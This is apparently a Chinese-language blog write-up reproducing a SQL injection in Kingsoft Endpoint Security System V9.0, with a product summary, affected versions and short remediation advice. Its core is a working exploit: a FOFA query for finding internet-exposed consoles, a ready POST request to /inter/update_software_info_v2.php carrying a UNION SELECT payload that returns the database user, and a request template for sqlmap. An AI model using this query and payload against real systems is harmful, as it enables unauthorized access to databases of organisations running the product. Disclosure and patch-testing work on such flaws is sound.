




# 金山终端安全系统V9.0 SQL注入漏洞复现

### 0x01 产品简介

     金山终端安全系统是一款为企业提供终端防护的安全产品，针对恶意软件、病毒和外部攻击提供防范措施，帮助维护企业数据和网络。

### 0x02 漏洞概述

    金山终端安全系统V9.0 /inter/update\_software\_info\_v2.php页面存在[sql注入漏洞](https://so.csdn.net/so/search?q=sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，该漏洞是由于金山终端安全系统未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。

### 0x03 影响范围

 金山终端安全系统<V9.SP1.E1008

### 0x04 复现环境

FOFA：title=="用户登录-金山终端安全系统V9.0Web控制台"



### 0x05 漏洞复现

PoC

```cobol
POST /inter/update_software_info_v2.php HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded

type=-1+UNION+SELECT+1,user(),3,4,5,6,7,8--&key=&pageCount=0&curPage=
```

查询当前用户



延时注入



Sqlmap验证 

数据包放txt里面

```cobol
POST /inter/update_software_info_v2.php HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded

type=-100*&key=&pageCount=0&curPage=
```



### 0x06 修复建议 

**升级修复方案**

官方已经推出了新版本修复了漏洞。建议所有受影响的用户尽快访问官方网站，更新版本至新版本。https://www.ejinshan.net/lywz/index

**临时缓解方案**

通过网络ACL策略限制访问来源，例如只允许来自特定IP地址或地址段的访问请求。另外作为安全建议，不要将集权设备的Web管理控制台开放在互联网上，并且仅允许可信IP进行访问。
